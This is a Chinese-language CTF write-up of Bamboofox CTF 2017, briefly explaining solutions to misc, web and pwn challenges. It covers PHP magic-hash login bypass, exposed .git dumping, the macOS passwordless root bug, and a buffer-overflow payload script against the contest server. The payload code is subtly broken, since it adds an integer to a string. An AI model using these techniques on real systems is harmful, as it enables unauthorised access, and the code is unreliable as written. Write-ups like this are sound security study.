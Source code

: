 ```yaml
---
layout: post
title: 'Bamboofox CTF 2017'
date: '2018-01-01'
tags: 'write-up BamboofoxCTF 2017'
author: 'racterub'
---
```



過了好幾個月重回了 CTF 比賽，但是這次考的是我以前沒學過的 x64 再加上我完全忘記要如何解題，變得 pwn 只拿下一題，挺失望的 QQ

`這裡就不分享 FLAG 了，只會寫出解法(也沒幾題QQ`

## Misc

### suck-browser
又是個 `302` 的坑，用 `curl` 就可以停止自動跳轉

### suck-apple
一個時事梗，只用 `root` 當作用戶名，不需要密碼即可有 `root` 權限

## Web

### suck-login

Description:
```
There is a suck login page and I found the md5 hash password is 0e836584205638841937695747769655.

Can you crack it?!
```

題目有提示 `hash(密碼)` 是 `0e` 開頭的，就可以聯想到是 php 會自動轉形態的問題，
因為 php 會自動把密碼的雜湊值轉成科學記號，變成0
所以密碼只要再找一組雜湊值一樣為0的就可以得到 FLAG

### tiny-git
看到題目，一開始就先看 `/.git/` 資料夾，發現會返回 `403 Forbidden`，
利用 `Denny` 大大的 Sctipt [(Link)](https://github.com/denny0223/scrabble)
可以發現檔案依舊可以下載，但是子目錄的檔案因為會返回 403
所以沒辦法瞭解內部檔案狀況
這時候就要科普一下 git 的儲存方式
[對於 git 的小解釋](https://www.siteground.com/tutorials/git/directory-structure/)
在找到 log 之後發現他直接在 commit messege 裡面寫上 FLAG

## pwn (最遺憾的一個類別)

### water-impossible
在題目有給了原始碼和 binary，在原始碼看到如果 `(int token) == 6666`
這個檢查有過，就會噴 FLAG
(保護只有開 NX)

所以利用 cyclic 確定可以蓋到 token ，並且知道 offset 是 28，所以
Payload:
```python
#!/usr/bin/env python

r = remote('bamboofox.cs.nctu.edu.tw', 58799)

payload = 'a'*28 + 0x00001a0a
r.recvuntil(':')
r.sendline(payload)
r.interactive()
```

Rank: 21 (6l0ry)